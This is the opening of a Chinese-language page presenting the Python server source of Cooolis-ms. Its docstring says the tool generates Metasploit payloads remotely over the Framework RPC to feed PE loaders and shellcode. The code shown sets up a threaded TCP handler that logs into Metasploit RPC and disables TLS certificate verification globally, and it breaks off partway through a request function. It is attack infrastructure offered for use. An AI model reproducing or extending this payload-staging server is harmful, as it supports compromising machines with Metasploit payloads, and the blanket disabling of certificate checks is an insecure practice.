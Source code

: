 我写出的Server代码如下：

```
"""
Cooolis-ms
------------
Author:Rvn0xsy@gmail.com
根据Metasploit Framework RPC 实现远程生成PAYLOAD，主要用于给灵活的PE加载器、Shellcode工作
Github:https://github.com/Rvn0xsy/Cooolis-ms/
"""
import requests
from argparse import ArgumentParser
import msgpack
import ssl
import sys
import json
import term
import struct
from socketserver import BaseRequestHandler,ThreadingTCPServer
from requests.packages.urllib3.exceptions import InsecureRequestWarning

requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
ssl._create_default_https_context = ssl._create_unverified_context


class Metasploit_RPC(BaseRequestHandler):
    def __init__(self, request, client_address, server, args):
        self.type = args.type
        self.username = args.username
        self.password = args.password
        self.listen = args.listen
        self.host = args.host
        self.port = args.port
        self.server = args.server
        self.uri = args.uri
        self.debug = args.versobe
        self.token = ''
        self.url = ''
        self.headers = {"Content-type" : "binary/message-pack"}
        if args.ssl:
            prefix = 'https://'
        else:
            prefix = 'http://'
        self.url = "{prefix}{host}:{port}{uri}".format(prefix=prefix,host=self.host,port=self.port,uri=self.uri)
        super().__init__(request, client_address, server)

    @classmethod
    def Creator(cls, *args, **kwargs):
        def _HandlerCreator(request, client_address, server):
            cls(request, client_address, server, *args, **kwargs)
        return _HandlerCreator


    def _request(self,options):
        try:
            term.writeLine("[*]API URL : {url} , Method : {method}".format(url=self.url,method=options[0]), term.green)
            options = self.__pack(options)
            req  = requests.post(self.url,verify=False,headers=self.headers,data=options)
            result = self.__unpack(req.content)
            if b'error' in result:
                print("Error : %s" % str(result[b'error_message']),encoding = "utf8")
            else:
```